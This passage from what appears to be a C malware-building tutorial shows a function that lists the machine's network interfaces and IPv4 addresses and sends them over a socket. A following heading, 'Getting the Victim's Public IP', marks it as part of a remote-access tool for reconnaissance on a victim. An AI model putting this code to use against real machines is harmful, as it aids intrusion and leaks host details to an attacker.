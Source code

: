 ### Getting Network Interface Information

Now, if we wanted to list all the network interfaces attached to the machine, that would need to have a little bit more complex function. We would need to get the interfaces, loop through them to get the IPv4 information, neatly send that information to the socket.

This is a little bit tricky because we would need to have a Linked List (damn DSA), but this is how I'd do it:

```c
void get_ipaddr_info(int sock){
    struct ifaddrs *interfaces, *temp_addr;
    char message[10000];
    int total_length = 0;

    // Get the list of network interfaces
    if (getifaddrs(&interfaces) == -1) {
        perror("getifaddrs failed");
        return;
    }

    // Loop through the interfaces
    for (temp_addr = interfaces; temp_addr != NULL; temp_addr = temp_addr->ifa_next) {
        // Check if the interface has an address and is IPv4
        if (temp_addr->ifa_addr != NULL && temp_addr->ifa_addr->sa_family == AF_INET) {
            char ip[INET_ADDRSTRLEN];
            // Get IP address
            struct sockaddr_in *sockaddr_ipv4 = (struct sockaddr_in *)temp_addr->ifa_addr;
            inet_ntop(AF_INET, &(sockaddr_ipv4->sin_addr), ip, INET_ADDRSTRLEN);
            int length = snprintf(message + total_length, sizeof(message) - total_length, "%s: %s\n", temp_addr->ifa_name, ip);
            if (length < 0 || total_length + length >= sizeof(message)) {
                break;
            }
            total_length += length;
        }
    }
    
    // Send the IP addresses to the socket
    if (total_length > 0) {
        send(sock, message, strlen(message), 0);
    } else {
        char *error;
        error = "No interface \n";
        send(sock, error, strlen(error), 0);
    }

    freeifaddrs(interfaces); // Free the linked list
}
```

### Getting the Victim's Public IP
